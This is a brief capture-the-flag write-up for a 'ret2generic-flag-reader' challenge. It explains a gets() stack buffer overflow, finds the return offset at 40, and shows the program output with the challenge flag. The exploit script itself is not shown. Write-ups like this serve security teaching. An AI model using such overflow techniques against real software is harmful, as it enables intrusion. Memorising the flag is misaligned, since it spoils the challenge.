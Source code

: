 # ret2generic-flag-reader

Reading through the source code, we can see that program puts message into `char comments_and_concerns[32];` variable with `gets()`

There is also `super_generic_flag_reading_function_please_ret_to_me()` which prints the flag for us.

## Exploitation

We just have to access the stack and execute `super_generic_flag_reading_function_please_ret_to_me()`-function

Let's get the offset:
```bash
[+] Searching 'faaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaala'
[+] Found at offset 40 (big-endian search)
```

Running the exploit gives us the flag

```python
[*] Switching to interactive mode
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}
```

### Flag
flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}
